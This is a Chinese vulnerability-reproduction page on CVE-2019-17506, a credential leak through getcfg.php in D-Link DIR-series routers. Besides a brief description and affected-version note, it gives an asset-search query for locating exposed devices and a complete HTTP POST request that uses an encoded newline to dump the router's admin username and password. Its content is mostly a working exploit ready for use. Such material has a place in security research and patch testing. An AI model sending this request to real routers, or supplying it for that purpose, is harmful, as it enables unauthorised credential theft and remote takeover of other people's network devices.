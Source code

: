 # D-Link Dir-645 getcfg.php 账号密码泄露漏洞 CVE-2019-17506

## 漏洞描述

D-Link DIR-868L B1-2.03和DIR-817LW A1-1.04路由器上有一些不需要身份验证的Web界面。攻击者可以通过SERVICES的DEVICE.ACCOUNT值以及AUTHORIZED_GROUP = 1％0a来获取getcfg.php的路由器的用户名和密码（以及其他信息）。这可用于远程控制路由器

## 漏洞影响

<a-checkbox checked>D-Link Dir 系列多个版本</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="D_Link-DIR-868L"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/link-14.png)



发送下请求包

```plain
POST /getcfg.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Length: 61

SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
```



![img](../../../.vuepress/public/img/link-15.png)